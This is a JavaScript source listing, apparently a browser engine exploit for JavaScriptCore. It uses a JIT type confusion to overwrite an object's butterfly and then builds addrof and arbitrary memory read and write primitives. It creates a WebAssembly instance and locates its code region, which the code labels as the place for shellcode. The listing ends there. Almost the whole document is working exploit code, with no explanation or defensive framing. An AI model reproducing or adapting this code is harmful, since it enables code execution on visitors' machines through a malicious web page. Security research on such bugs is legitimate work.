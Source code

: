 ```js
var tmp_buf = new ArrayBuffer(8)
var f64 = new Float64Array(tmp_buf)
var u32 = new Uint32Array(tmp_buf)
var BASE = 0x100000000

function f2i(f) {
    f64[0] = f
    return u32[0] + BASE*u32[1]
}
function i2f(i) {
    u32[0] = i % BASE
    u32[1] = i / BASE
    return f64[0]
}
function hex(x) {
    if (x < 0) return `-${hex(-x)}`
    return `0x${x.toString(16)}`
}

function jit(a, addr) {
    a.j = addr
}

let a = {x: 13.37, y: 26.6, z: 13.37, j: 13.37}
let b = {x: 13.37, y: 26.6, 0: 13.37}
let c = {x: 27.37, y: 26.6, 0: 13.37}
let d = {x: 27.37, y: 26.6, 0: 13.37}

for(let i = 0; i < 100; i++){
    jit(a, {})
}
// Overwrite c's butterfly with d
jit(b, d)

// Create type confusion between d's first inline property and c's butterfly 
// -> interpret object as raw double
function addrof(obj) {
    d.x = obj
    return f2i(c[2])
}

// Arbitrary r/w by overwriting d's butterfly
function read(addr) {
    c[1] = i2f(addr)
    return f2i(d[0])
}

function write(addr, value) {
    c[1] = i2f(addr)
    d[0] = value
}

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code)
var wasm_instance = new WebAssembly.Instance(wasm_mod)
var f = wasm_instance.exports.main
var addr_f = addrof(f)
print("[*] f @ " + hex(addr_f))

var addr_shellcode = read(addr_f + 0x38)
```